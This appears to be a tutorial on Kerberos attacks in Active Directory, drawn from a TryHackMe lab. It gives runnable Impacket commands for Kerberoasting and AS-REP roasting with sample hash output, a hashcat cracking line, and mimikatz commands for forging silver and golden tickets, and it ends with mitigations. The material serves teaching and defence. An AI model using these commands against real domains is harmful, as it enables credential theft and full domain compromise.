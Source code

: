 # Introduction
This article will talk about Kerberos attacks in Active Directory. In order to understand these attacks, first let's go through how does Kerberos works.

### Tools
[Impacket](https://github.com/SecureAuthCorp/impacket) is a set of tools in Linux for Kerberos attacks

[Mimikatz](https://github.com/gentilkiwi/mimikatz) for Windows attacks

### 1. What is Kerberos authentication
Kerberos authentication is an alternate way to authenticate in Active Directory beside NTLM. Traditionally, users use passwords or hashes to authenticate. However, Microsoft implement Kerberos to avoid passing hashes around the network that is vulnerable to many attacks like pass the hash. The authentication process uses service tickets to as an evidence to authenticate. If the user has the correct tickets with enough privileges, they can access to different services based on the permission on the tickets.

Kerberos authentication process:
- Users request TGT: The users send the username and timestamp encrypted with his password to the Key Distribution Center(KDC), which is a service installed on the Domain controller to distribute tickets. The KDC create the Ticket Granting Ticket (TGT) along with a Session Key and send it to the users.
- Users request TGS: Whenever a user wants to access specific service, they will send the TGT and ask for the Ticket Granting Service(TGS), which are tickets that only allow users to access specific services. The KDC then check the TGT information, create the TGS and send it to the users. Users then use the TGS to access the requested service. 

### 1. Kerberos brute-force
Kerberos always indicate if we have the correct username or password. Because of that, it is possible for attackers to brute-force it to enumerate usernames or do the password attacks.

### 2. Kerberoasting

According to the theory of TGS, the TGS is encrypted using service owner's hash. Because of that, attackers can request the tickets by knowing the service principal name(SPN) and then use different password cracking tools to crack it offline.

To perform this attacks, we use a script from Impacket called [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) to request the TGS. The example below is taken from one of the Tryhackme lab at https://tryhackme.com/room/credharvesting

```bash
user@machine$ python3.9 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.205.229 THM.red/thm -request-user svc-user 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName          Name     MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------------  -------  --------  --------------------------  ---------  ----------
http/creds-harvestin.thm.red  svc-user            2022-06-04 00:15:18.413578  

[-] CCache file is not found. Skipping...
$krb5tgs$23$*svc-user$THM.RED$THM.red/svc-user*$8f5de4211da1cd5715217[*REMOVED*]7bfa3680658dd9812ac061c5
```

After having the TGSs ticket, we can use [hashcat](https://github.com/hashcat/hashcat) to crack the ticket
```bash
user@machine$ hashcat -a 0 -m 13100 spn.hash /usr/share/wordlists/rockyou.txt
```

### 3. ASREP-Roasting

Users that have "Do not require Kerberos pre-authentication enabled" are vulnerable to this attack. This option means that any user can make a AS-REQ request to the Domain Controller as that users, and because of how Kerberos authentication works, the AS-REP response will be the data encrypted with the user password, and we can take the ticket and crack it to get the user password offline. 

![alt text](https://i.stack.imgur.com/n56xn.png)

##### Linux
To perform this attacks, we use a script from Impacket called [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) to gather users do not have Kerberos pre-authentication enabled. 

```bash
root@machine$ python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.205.229 thm.red/ -usersfile /tmp/users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Doing the same method as Kerberoasting, we can crack the ticket offline too.

### 4. Silver ticket
When attackers know the hash of the service account, he can craft a forge TGS ticket and authenticate to the service all the time. This ticket can be used as a persistence in Active Directory.

To perform this attack, we can use mimikatz to create a forge TGS ticket
```bash
mimikatz # kerberos::golden /admin:Legit account /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of targeted server> /rc4:<NTLM Hash of service account of target> /service:cifs /ptt
```
After creating the ticket, we can use it as a authentication method to access resources of the service we want.


### 5. Golden ticket
The Golden ticket technique is similar to the Silver ticket one, however, in this case a TGT is crafted by using the NTLM hash of the krbtgt AD account. The advantage of forging a TGT instead of TGS is being able to access any service (or machine) in the domain.

Golden ticket methodology is same thing as Silver ticket. The only different is we use krbtgt account to create the ticket. It is called Golden ticket because this ticket can be used to access any service in the domain. 

To perform the attack, we only substitute the hash of the account to the krbtgt hash to mimikatz.

```bash
mimikatz # kerberos::golden /admin:LegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /ptt
```
This ticket will be the best thing to have as an attacker in the domain because we can access anything we want.

### Mitigations
In order to prevent or mitigate many of these Kerberos attacks a series of policies can be implemented. Some examples are the following:

- Enable an strong password policy: Using strong password for users account to make it harder for attacker to crack the password

- Do not have accounts without pre-authentication: Always have Kerberos pre-authentication in every account

- Use strong encryption for Kerberos: Only allowed AES encryption for Kerberos

### References
Impacket: https://github.com/SecureAuthCorp/impacket

Mimikatz:  https://github.com/gentilkiwi/mimikatz

Kerberos attacks: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast

Attacking Kerberos: https://www.tarlogic.com/blog/how-to-attack-kerberos/

Tryhackme lab: https://tryhackme.com/room/credharvesting
